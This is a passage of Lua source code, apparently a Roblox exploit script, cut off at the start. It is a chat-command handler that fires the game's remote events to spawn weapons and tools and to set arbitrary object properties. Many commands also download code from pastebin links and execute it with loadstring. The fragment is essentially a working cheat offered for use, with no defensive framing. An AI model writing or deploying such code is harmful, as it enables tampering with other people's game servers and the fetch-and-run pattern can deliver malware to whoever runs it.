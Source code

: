         loadstring(game:HttpGet("https://pastebin.com/raw/mzwCNEnv"))()
    end
    if msg:lower() == "^sit" then lplayer.Character.Humanoid.Sit=true end
    if msg:lower() == "^scythe" then
        game.workspace.GiveTool:FireServer("IDFORSPAWNER", "PompousTheCloud")
        wait()
        loadstring(game:HttpGet("https://pastebin.com/raw/aTxu6tYF"))()
    end
        if msg:lower() == "^night sky" then
        game.workspace.GiveTool:FireServer("IDFORSPAWNER", "PompousTheCloud")
        wait()
        loadstring(game:HttpGet("https://pastebin.com/raw/GXeJR5yN"))()
    end
    if msg:lower() == "^cloud" then--add cmd inside " "
    game.Workspace.GiveTool:FireServer(7671476, "PompousTheCloud")
    end
    if msg:lower() == "^sb gun" then
        game.workspace.GiveTool:FireServer("IDFORSPAWNER", "PompousTheCloud")
        wait()
        loadstring(game:HttpGet("https://pastebin.com/raw/d21axhA2"))()
    end
    if msg:lower() == "^spistol" then
        game.workspace.GiveTool:FireServer("IDFORSPAWNER", "PompousTheCloud")
        wait()
        loadstring(game:HttpGet("https://pastebin.com/raw/Vrh1th0F"))()
    end
    if msg:lower() == "^iPhone 8" then
        game.workspace.GiveTool:FireServer("IDFORSPAWNER", "PompousTheCloud")
        wait()
        loadstring(game:HttpGet("https://pastebin.com/raw/TSLtytna"))()
    end
    if msg:lower() == "^dagger" then
        game.workspace.GiveTool:FireServer("IDFORSPAWNER", "PompousTheCloud")
        wait()
        loadstring(game:HttpGet("https://pastebin.com/raw/Ehp6Tt93"))()
    end
    if msg:lower() == "^ak" then
        game.workspace.GiveTool:FireServer("IDFORSPAWNER", "PompousTheCloud")
        wait()
        loadstring(game:HttpGet("https://pastebin.com/raw/2zJ3TaxL"))()
    end
    if msg:lower() == "^LMG" then
        game.workspace.GiveTool:FireServer("IDFORSPAWNER", "PompousTheCloud")
        wait()
        loadstring(game:HttpGet("https://pastebin.com/raw/Eu8PxKeF"))()
    end
    if msg:lower() == "^box" then
    local ME = game:GetService("Players").LocalPlayer
function FireEvent(ItemName, Object, Property, Value)
  ME.Character:FindFirstChild(ItemName)["ServerControl"]:InvokeServer("SetProperty",{["Value"]=Value,["Property"]=Property,["Object"]=Object})
end
game.Workspace.GiveTool:FireServer(7671476, "PompousTheCloud")
ME["Backpack"]:WaitForChild("PompousTheCloud").Parent = ME.Character
ME["Backpack"]:WaitForChild("SuperFlyGoldBoombox").Parent = ME.Character
FireEvent("PompousTheCloud",ME.Character["SuperFlyGoldBoombox"],"CanBeDropped",true)
FireEvent("PompousTheCloud",ME.Character["SuperFlyGoldBoombox"],"TextureId","rbxassetid://4521889469")
FireEvent("PompousTheCloud",ME.Character["SuperFlyGoldBoombox"]["Handle"]["Mesh"],"MeshId","rbxassetid://4526662969")
FireEvent("PompousTheCloud",ME.Character["SuperFlyGoldBoombox"]["Handle"]["Mesh"],"TextureId","rbxassetid://4526663033")
FireEvent("PompousTheCloud",ME.Character["SuperFlyGoldBoombox"]["Handle"]["Mesh"],"Scale",Vector3.new(.5,.5,.5))